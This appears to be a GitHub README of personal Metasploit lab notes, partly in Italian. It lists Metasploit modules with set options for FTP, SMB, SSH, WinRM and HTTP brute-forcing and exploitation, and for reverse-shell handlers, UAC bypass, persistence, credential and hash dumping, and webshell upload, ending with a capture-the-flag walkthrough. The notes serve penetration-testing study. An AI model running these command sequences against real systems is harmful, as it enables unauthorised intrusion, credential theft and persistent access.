






# The-Metasploit-Framework-MSF-
Let's introduce The Metasploit Framework (MSF)
# Introduction of Framework
## Metasploit
 
The metasploit framework is a tool that allows you to test the security of your network and systems by simulating attacks and exploiting vulnerabilities. It is a collaboration between the open source community and Rapid7, a security company. The metasploit framework has a library of exploits, payloads, and utilities that you can use to launch attacks, gain access, and maintain persistence on your targets. You can also write your own modules and scripts to customize your attacks.  
The architecture of metasploit is shown below  
 

### We quickly explain these modules:
1. **Exploit**: An exploit module is a piece of code that takes advantage of a vulnerability in a target system or application. It can execute arbitrary commands, install malware, or create a backdoor for future access.
2. **Payload**: A payload module is a piece of code that runs on the target system after the exploit succeeds. It can perform various actions, such as opening a shell, downloading a file, or adding a user.
3. **Encoder**: An encoder module is a piece of code that transforms a payload into a different format to avoid detection by antivirus or firewall software. It can use various techniques, such as encryption, obfuscation, or polymorphism.
4. **Nop**: A nop module is a piece of code that does nothing. It is used to fill the space between the exploit and the payload, or to align the payload to a specific address. It can also be used to bypass certain security mechanisms, such as stack cookies or address space layout randomization (ASLR).
5. **Auxiliary**: An auxiliary module is a piece of code that performs a supporting task, such as scanning, fingerprinting, or sniffing. It can also be used to test the target system for vulnerabilities, or to gather information for later exploitation.

### The Payload can be staged or not:
 - **A payload non staged** (or stageless) is a single piece of code that contains everything needed to get a reverse shell callback. It is larger in size and more complex than a payload staged, but it does not require any additional communication with the attacker.
 - **A payload staged** (or stager) is a small piece of code that connects to the attacker and downloads a second piece of code (or stage) that contains the actual functionality. It is smaller in size and simpler than a payload non staged, but it requires an extra interaction with the attacker.  
 
A payload staged can be more stealthy and flexible than a payload non staged, as it can evade detection by antivirus or firewall software and download different stages depending on the situation. However, a payload non staged can be more reliable and faster than a payload staged, as it does not depend on the availability of the attacker or the network connection.  
 

## Usage: msfconsole [options]

## Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

## Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

## Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

## Module options:
        --[no-]defer-module-loads    Defer module loading unless explicitly asked
    -m, --module-path DIRECTORY      Load an additional module path

## Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -l, --logger STRING              Specify a logger to use (StdoutWithoutTimestamps, TimestampColorlessFlatfile, Flatfile, Stderr, Stdout)
        --[no-]readline
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message

# My List of modules for Enumeration:
For learn something more to these protocols, I direct you to my protocols github repository.  
**https://github.com/SavioFengGit/Protocols-FTP-21-SSH-22-SMB-139-445-MySQL-3306-and-RDP-3389**  

## FTP 21:
	• use auxiliary/scanner/ftp/ftp_version
	  set RHOSTS 192.51.147.3
	  exploit (vede la versione ftp)
	• use auxiliary/scanner/ftp/ftp_login
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	  set RHOSTS
	  exploit (brute force per le credenziali)
	• use auxiliary/scanner/ftp/anonymous (vede se supporta l'accesso anonimo)

## Samba 445
	• msfconsole 
	  use auxiliary/scanner/smb/smb_version 
	  set RHOSTS 192.126.66.3 
          exploit

## Apache 80
	1. auxiliary/scanner/http/http_version (identifica la versione del server web e del protocollo HTTP usati dal target)
	2. auxiliary/scanner/http/http_header (recupera e visualizza le intestazioni HTTP della risposta del server web)
	3. auxiliary/scanner/http/robots_txt (cerca e analizza il file robots.txt del server web, che contiene le indicazioni per i 		   crawler sui contenuti da indicizzare o escludere)
	4. auxiliary/scanner/http/brute_dirs (identifica l’esistenza di directory interessanti sul server web tramite una forza bruta 		   basata su permutazioni di caratteri)
	5. auxiliary/scanner/http/dir_scanner (identifica l’esistenza di directory interessanti sul server web tramite una forza bruta 		   basata su una lista di parole)
	6. auxiliary/scanner/http/dir_listing (verifica se il server web permette la visualizzazione dell’elenco dei file nelle 		   directory)
	7. auxiliary/scanner/http/files_dir (cerca e scarica i file presenti nelle directory del server web)
	8. auxiliary/scanner/http/http_put (verifica se il server web permette il caricamento di file tramite il metodo HTTP PUT)
	9. auxiliary/scanner/http/http_login (prova a effettuare il login sul server web tramite una forza bruta basata su una lista di 	   credenziali)
       10. auxiliary/scanner/http/apache_userdir_enum (enumera le directory degli utenti sul server web Apache tramite il modulo 		   mod_userdir)

## MYSQL 3306
	1. auxiliary/scanner/mysql/mysql_version (identifica la versione del server MySQL e del protocollo usati dal target)
	2. auxiliary/scanner/mysql/mysql_login (prova a effettuare il login sul server MySQL tramite una forza bruta basata su una lista 	   di credenziali)
	3. auxiliary/admin/mysql/mysql_enum (enumera le informazioni sul server MySQL, come i database, le tabelle, le colonne e i dati)
	4. auxiliary/admin/mysql/mysql_sql (esegue una query SQL arbitraria sul server MySQL)
	5. auxiliary/scanner/mysql/mysql_file_enum (cerca e scarica i file presenti sul server MySQL tramite la funzione LOAD_FILE)
	6. auxiliary/scanner/mysql/mysql_hashdump (recupera e visualizza gli hash delle password degli utenti del server MySQL)
	7. auxiliary/scanner/mysql/mysql_schemadump (recupera e visualizza lo schema del database del server MySQL)
	8. auxiliary/scanner/mysql/mysql_writable_dirs (identifica le directory scrivibili sul server MySQL tramite la funzione INTO 		   OUTFILE)

## SSH 22
	• use auxiliary/scanner/ssh/ssh_login 
	  set RHOSTS 192.245.211.3 
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt 
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 
	  set STOP_ON_SUCCESS true 
	  set VERBOSE true 
	  exploit (brute force)

## SMTP 25
	• msfconsole 
	  use auxiliary/scanner/smtp/smtp_enum 
	  set RHOSTS 192.80.153.3 
	  exploit (enumera gli utenti rispetto alla wordlist di metasploit esistenti)    

For the enumeration part of these protocols with NMAP, I direct you to my nmap github repository.  
**https://github.com/SavioFengGit/Nmap-Active-Information-Gathering**  

# My Personal List of modules for Exploitation 
**(use search command with type and platform to search an exploit for specific vulnerability)**
# Windows Exploitation

## Http file server HFS 80
	• nmap --top-ports 65536 10.0.0.99
	• nmap -sV -p 80 10.0.0.99
	• searchsploit hfs
	• msfconsole
	  use exploit/windows/http/rejetto_hfs_exec
	  set RPORT 80 (target)
	  set RHOSTS 10.0.0.99 (target)
	  set LHOST 10.10.0.4 (ascoltatore)
	  Exploit (apre una reverse tcp meterpreter)
	  
	
## Winrm 5985-5986(https)
	• nmap --top-ports 7000 10.0.0.173
	• msfconsole -q && service postgresql start
	• use auxiliary/scanner/winrm/winrm_login
	  set RHOSTS 10.0.0.173
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	  set VERBOSE false
	  exploit (esegue il brute force)
	• use auxiliary/scanner/winrm/winrm_auth_methods
	  set RHOSTS 10.0.0.173
	  exploit (vede quali metodi di auth sono abilitati)
	• use auxiliary/scanner/winrm/winrm_cmd
	  set RHOSTS 10.0.0.173
	  set USERNAME administrator
	  set PASSWORD tinkerbell
	  set CMD whoami
	  exploit (esegue direttamente e ritorna solo il comando mandato)
	• use exploit/windows/winrm/winrm_script_exec
	  set RHOSTS 10.0.0.173
	  set USERNAME administrator
	  set PASSWORD tinkerbell
	  set FORCE_VBS true
	  exploit (apre una sessione meterpreter)

## Apache Tomcat 8080
	• nmap --top-ports 65536 10.0.0.141
	• msfconsole
	• use exploit/multi/http/tomcat_jsp_upload_bypass
	  set RHOSTS 10.0.0.141
	  check (We are running a “ check ” command in the metasploit framework to make sure that if the target is vulnerable to 			jsp_upload_bypass or not.)
	  Exploit
## SMB 445
	• use exploit/windows/smb/psexec
	  set RHOSTS 10.0.31.252
	  set SMBUser Administrator
	  set SMBPass vagrant
	  set payload windows/x64/meterpreter/reverse_tcp
	  exploit
 	• use auxiliary/scanner/smb/smb_login
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	  set RHOSTS 10.0.0.242
	  set VERBOSE false
	  Exploit (brute)

## MySQL 3306
	• use auxiliary/scanner/mysql/mysql_login
	  set RHOSTS 10.0.25.212
	  set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
	  exploit (brute)

## Microsoft IIS 80
	• msfconsole -q && service postgresql start
	• use exploit/windows/iis/iis_webdav_upload_asp
	  set RHOSTS 10.0.17.27
	  set HttpUsername bob
	  set HttpPassword password_123321
	  set PATH /webdav/metasploit%RAND%.asp
	  Exploit 

## RDP 3389
	• msfconsole -q && service postgresql start
	  use auxiliary/scanner/rdp/rdp_scanner
	  set RHOSTS 10.0.0.31
	  set RPORT 3333
	  Exploit

## HTTP BadBlue 80
	• msfconsole -q && service postgresql start
	  use exploit/windows/http/badblue_passthru
	  set RHOSTS 10.0.27.166
	  exploit (apre la sessione meterpreter)

# Linux Exploitation

## FTP 21
	• nmap -sS -sV 192.130.172.3
	• nmap -p 21 --script vuln 192.130.172.3
	• use exploit/unix/ftp/vsftpd_234_backdoor
	  set RHOST 192.130.172.3
	  Exploit (apre shell)
	• Ctrl+z
	• use multi/manage/shell_to_meterpreter -> set LHOST=eth1 -> set RHOST IPKALI -> set SESSION 1 -> run (apre una sessione 		  meterpreter)
	• sessions 2 (entri nel meterpreter)
 	• msfconsole -q && service postgresql start
	  use exploit/unix/ftp/proftpd_133c_backdoor
	  set RHOSTS 192.35.134.3
	  exploit -z

 
## SAMBA 445 
	• nmap -sS -sV 192.218.210.3
	• use exploit/linux/samba/is_known_pipename
	  set RHOST 192.218.210.3
	  check
	  exploit (apre una shell)
	• Ctrl+z
	• use multi/manage/shell_to_meterpreter -> set LHOST=eth1 -> set RHOST IPKALI -> set SESSION 1 -> run (apre una sessione 		  meterpreter)
	• sessions 2 (entri nel meterpreter)
 	• msfconsole
	• use auxiliary/scanner/smb/smb_version
	  set RHOSTS 10.2.217.132
	  exploit
	• use exploit/multi/samba/usermap_script
	  set RHOSTS 10.2.217.132
	  exploit

	
## SSH 22 
	• nmap -sS -sV 192.51.205.3
	• use auxiliary/scanner/ssh/libssh_auth_bypass
	  set RHOSTS 192.51.205.3
	  set SPAWN_PTY true (permette di fare comandi in piu)
	  exploit (da qui posso fare solo whoami, id, cat /etc/*release)
	• Ctrl+z
	• use multi/manage/shell_to_meterpreter -> set LHOST=eth1 -> set RHOST IPKALI -> set SESSION 1 -> run (apre una sessione 		meterpreter)
	• sessions 2 (entri nel meterpreter per fare sysinfo)
 	• msfconsole
	  use auxiliary/scanner/ssh/ssh_version
	  set RHOSTS 192.245.211.3
	  exploit (vede la versione)
	• use auxiliary/scanner/ssh/ssh_login
	  set RHOSTS 192.245.211.3
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
	  set STOP_ON_SUCCESS true
	  set VERBOSE true
	  exploit (fa brute force e accede)

	
## SMTP Haraka 
	• nmap -sS -sV 192.3.161.3
	• use exploit/linux/smtp/haraka
	  set SRVPORT 9898 (imposta dove haraka sara in ascolto)
	  set email_to root@email.test (a chi mandare l'email malevolo)
	  set payload linux/x64/meterpreter_reverse_http
	  set rhost 192.150.137.3
	  set LHOST 192.150.137.2
	  exploit

## PHP Apache
	• msfconsole
	• use exploit/multi/http/php_cgi_arg_injection
	• set RHOSTS 10.2.19.172
	• exploit

## Shellshock 80 
	• nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3
	• msfconsole
	• use shellshock
	• use exploit/multi/http/apache_mod_cgi_env.exec
	  set rhosts ip
	  set TARGETURI /gettime.cgi  (devi mettere il path del cgi
	  exploit (apre una reverse shell)

# My List of modules for Post Exploitation

## Handler
	• msfconsole -q
	• use exploit/multi/handler
	  set PAYLOAD windows/meterpreter/reverse_tcp
	  set LHOST 10.10.20.2
	  set LPORT 4434
	  Exploit
## UAC Bypass: Memory Injection
	• use exploit/windows/local/bypassuac_injection
	  set session 1
	  set TARGET 1
	  set PAYLOAD windows/x64/meterpreter/reverse_tcp
	  set LPORT 4433
	  exploit
## Maintaining Access: Persistence Service
	• use exploit/windows/local/persistence_service
	  set SESSION 1
	  exploit

## Windows: Enabling Remote Desktop
	• use post/windows/manage/enable_rdp
	  set SESSION 1
	  exploit
## Privilege Escalation - Rootkit Scanner
	• use exploit/unix/local/chkrootkit
	  set CHKROOTKIT /bin/chkrootkit
	  set session 1
	  set LHOST 192.14.195.2
	  exploit

## Windows Modules
	• Search win_privs (elenca i privilegi degli utenti)
	• Search enum_loggen_on (mostra i sid con gli utenti online)
	• Search checkvm (mostra se sono su una vm)
	• Search enum_applications (enumera le varie applicazioni con le versioni)
	• Search enum_av (enumera gli antivirus)
	• Search enum_computers (enumera i pc connessi o se è un dominio a parte)
	• Search enum_patches (enumera le patches istallate, devi poi andare sulla sessione, fare shell e sysinfo o systeminfo)
	• Search enum_shares (enumera gli shares trovati)
	• Search enable_rdp (abilita rdp sul target)

## Linux Modules
	• use post/linux/gather/enum_configs (enumera la lista dei file di configurazione analizzabili)
	• use post/linux/gather/enum_network (enumera le informazioni di network)
	• use post/linux/gather/enum_system (enumera le informazioni del sistema locale)
	• use post/linux/gather/checkvm (vede se è una vm)
	• use post/multi/gather/env (vede le variabili d'ambiente)
	• post/linux/gather/enum_protections (enumera i meccanismi di protezione)
	• post/linux/gather/checkcontainer (vede se il sistema in esecuzione è dentro ad un container)
	• post/linux/gather/enum_users_history (raccoglie la cronologia degli utenti , last log etc.)
	• post/multi/manage/system_session (crea una reverse shell)
	• post/linux/manage/download_exec (puoi scaricare le cose)
	• post/multi/gather/ssh_creds (raccoglie i contenuti delle directory .ssh di tutti gli utenti sul sistema target e scarica i 		  vari files)
	• post/multi/gather/docker_creds (raccoglie i contenuti delle directory .docker di tutti gli utenti sul sistema target. Se 		  l’utente ha già fatto il push su docker hub, è probabile che la password sia stata salvata in base64, comportamento 			  predefinito. Questo modulo è utile per ottenere le credenziali docker e i cookie dei siti visitati dagli utenti)
	• post/linux/gather/hashdump (estrae gli hash di tutti gli utenti)
	• post/linux/gather/ecryptfs_creds (Questo modulo è un modulo di raccolta post-sfruttamento che raccoglie i contenuti delle 		  directory .ecrypts di tutti gli utenti sulla macchina target. I file "wrapped-passphrase" raccolti possono essere sottoposti a 	  cracking con John the Ripper (JtR) per recuperare le "mount passphrases". Questo modulo è utile per ottenere le credenziali 
          eCryptfs degli utenti)
	• post/linux/gather/enum_psk (raccoglie le informazioni wireless)
	• post/linux/gather/enum_xchat (raccolta post-sfruttamento che raccoglie i file di configurazione e i log delle chat di XChat e 
          HexChat dalla macchina target. Ci sono tre azioni che puoi scegliere: CONFIGS, CHATS e ALL. L’opzione CONFIGS può essere 		  usata per raccogliere informazioni come le impostazioni dei canali, le password dei canali/server, ecc. L’opzione CHATS 		  scarica semplicemente tutti i file .log1. Questo modulo è utile per ottenere informazioni sugli utenti e le loro conversazioni)
	• post/linux/gather/phpmyadmin_credsteal (raccoglie le credenziali di PhpMyAdmin dalla macchina target Linux, user e pass)
	• post/linux/gather/pptpd_chap_secrets (questo modulo è utile per ottenere le credenziali di PPTP VPN degli utenti)
	• post/linux/manage/sshkey_persistence (modulo di gestione post-sfruttamento che aggiunge una chiave SSH a un utente specificato 	  (o a tutti), per consentire l’accesso remoto tramite SSH in qualsiasi momento)

## Command meterpreter Windows
	• sysinfo (informazioni di sistema)
	• shell (apre una shell)
	• getuid (full privilege with NT-WINDOWS )
	• getprivs (enumera i privilegi che ha l'utente)
	• background (mette in background la sessione meterpreter = ctrl+z)
	• ifconfig (le interfaccie)
	• netstat (ottieni la lista delle porte aperte)
	• route (ottieni la routing table)
	• ps (mostra i processi che runnano su windows)
	• pgrep explorer.exe (cerca il suo pid)
	• migrate 2176 (migra nel pid)
	• lpwd (mostra la cartella locale)
	• download flag5.zip (scarica il zip)
	• checksum md5 /bin/bash (tira fuori il checksum)
	• getenv PATH (ti dà il path di dove sono le variabili d'ambiente)
	• search -d /usr/bin -f *flag* -r (-d cerca dalla directory che indichi, -f indichi cosa cerchi e metti -r se vuoi cercare nelle 	  sue sottocartelle)
	• upload /usr/share/webshells/php/php-backdoor.php (carica una webshell nel target)

## Command shell Windows
	• hostname (enumera gli hostname del sistema)
	• systeminfo (informazioni di sistema, versione OS, Os build number, hardware configuration, windows hotfix installed)
	• wmic qfe get Caption,Description,HotFixID,InstalledOn (hotfix installati con vari dettagli)
	• whoami
	• whoami /priv (enumera l'utente e i suoi privilegi)
	• net users (lista gli user accounts)
	• net user administrator (mostra le informazioni di configurazione di tale account)
	• net localgroup (enumera i gruppi che ci sono nel sistema)
	• net localgroup administrators (mostro quali sono gli utenti che sono nel gruppo administrators)
	• ip a s (mostra le network interfaces connesse al computer)
	• cat /etc/networks (lista le network configurate)
	• cat /etc/hosts (enumera i domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (mostra il DNS nameserver ip)
	• net start (enumera la lista dei servizi in running)
	• wmic service list brief (uguale al comando di sopra, ma da anche informazioni dettagliate)
	• tasklist /SVC (mostra la lista dei task in running e il corrispettivo servizio)
	• schtasks /query /fo LIST (enumera la lista dei task schedulati)
	• Get-ChildItem -Path C:\Users -Recurse -filter *flag*.txt (cerca il flag nel punto che dici tu)
	• cd /
	• dir
	• type flag.txt
	

## Command meterpreter Linux
	• sysinfo (informazioni di sistema)
	• shell (apre una shell)
	• getuid (full privilegi with NT-WINDOWS )
	• getprivs (enumera i privilegi che ha l'utente)
	• background (mette in background la sessione meterpreter = ctrl+z)
	• ifconfig (le interfaccie)
	• netstat (ottieni la lista delle porte aperte)
	• route (ottieni la routing table)
	• ps (mostra i processi che runnano su windows)
	• pgrep explorer.exe (cerca il suo pid)
	• migrate 2176 (migra nel pid)
 
## Command on Linux
	• hostname (trova l'hostname del sistema)
	• cat /etc/issue (trova il nome distro di linux)
	• cat /etc/*release (trova la versione di linux)
	• uname -a (trova la versione del kernel di linux)
	• lscpu (trova le informazioni hardware del sistema)
	• df -h (trova la list degli storage con le varie informazioni tra cui dove sono montate)
	• whoami (ti dice in quale user account sei)
	• groups root (enumera i gruppi di cui fa parte root)
	• cat /etc/passwd (lista gli user and service accounts)
	• groups (enumera i gruppi che ci sono)
	• who (mostra gli utenti connessi ora, potrebbe non esserci utenti connessi da remoto o via ssh)
	• lastlog (lista tutti gli utenti con l'ultimo accesso fatto)
	• ip a s (mostra le varie interfaccie connesse)
	• cat /etc/networks (enumera la lista delle network configurate e i loro subnet)
	• cat /etc/hosts (enumera la lista dei domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (trova l'ip del default DNS server name)
	• cat /etc/cron* (enumera la lista dei cron job)
	

# Example: Exploiting SMB with Metasploit Framework(MSF)
### Check SMB protocols with nmap
 - nmap -p445 --script smb-protocols 10.3.23.123  
 
### Perform brute force
 - msfconsole -q && service postgresql start
 - use auxiliary/scanner/smb/smb_login
 - set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
 - set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
 - set RHOSTS 10.3.23.123
 - set VERBOSE false
 - exploit (4 valid credentials)  
  
### Exploit with psexec module
 - use exploit/windows/smb/psexec
 - set RHOSTS 10.3.23.123
 - set SMBUser Administrator
 - set SMBPass qwertyuiop
 - exploit  
 
### Capture the Flag
 - shell
 - cd /
 - dir
 - type flag.txt  
  

#Author
<b>Xiao Li Savio Feng</b>

